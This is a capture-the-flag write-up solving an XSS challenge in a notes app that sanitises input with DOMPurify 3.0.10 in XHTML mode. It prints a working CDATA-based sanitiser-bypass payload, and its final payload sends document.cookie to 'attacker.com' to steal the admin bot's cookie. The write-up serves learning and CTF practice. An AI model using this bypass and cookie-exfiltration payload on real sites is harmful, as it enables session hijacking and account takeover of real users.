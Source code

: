 +++
author = "bkmlauda"
title = "Wreck-It 6.0 - Safe Note"
date = "2025-10-05"
categories = ["ctf"]
+++

### Overview

This time we are given some sort of app to write notes, that have some function to render to html directly. We are also given a bot to report a link to admin.

### Solve

Right off the bat, I think its XSS. Tried several paylaods, so much blacklist on html tags, `<img>` isn't. Theres also sanitazion on added attributes like `onerror`,

sample payload:
```html
<p>welcome to ctf notes!</p><img src='x' onerror="fetch('example.com')">

```

result:
```html
<div id="renderTarget" class="preview" aria-live="polite">
    <p xmlns="http://www.w3.org/1999/xhtml">welcome to ctf notes!</p>
    <img xmlns="http://www.w3.org/1999/xhtml" src="x"></div>
```

Figured out the app indeed have some sanitazion with `DOMPurify`:
```javascript
...
  function renderNow() {
    const raw = $note.value || '';
    const clean = DOMPurify.sanitize(raw, {
      PARSER_MEDIA_TYPE: "application/xhtml+xml", 
      USE_PROFILES: { html: true }
    });
    $target.innerHTML = clean;
  }
...
```

The app utilize `DOMPurify v3.0.10` which actually has an old vuln with `CDATA` bypass

The Working Payload for DOMPurify 3.0.10 with XHTML mode:
```bash
<![CDATA[ ><img src onerror=alert(document.domain)> ]]>
```
Why This Works:

When DOMPurify sanitizes this as XML with PARSER_MEDIA_TYPE "application/xhtml+xml", it treats CDATA as a valid XML construct. However, when the browser renders it as HTML, it doesn't recognize CDATA in the HTML namespace and instead treats it as a bogus comment, ending at the first `>` character instead of `]]>`

final payload:
```bash
<![CDATA[ ><img src onerror="fetch('https://attacker.com/?c='+btoa(document.cookie))"> ]]>
```

Finally, make the shared link, report to admin, fetch the cookies on the request bin which contain the flag.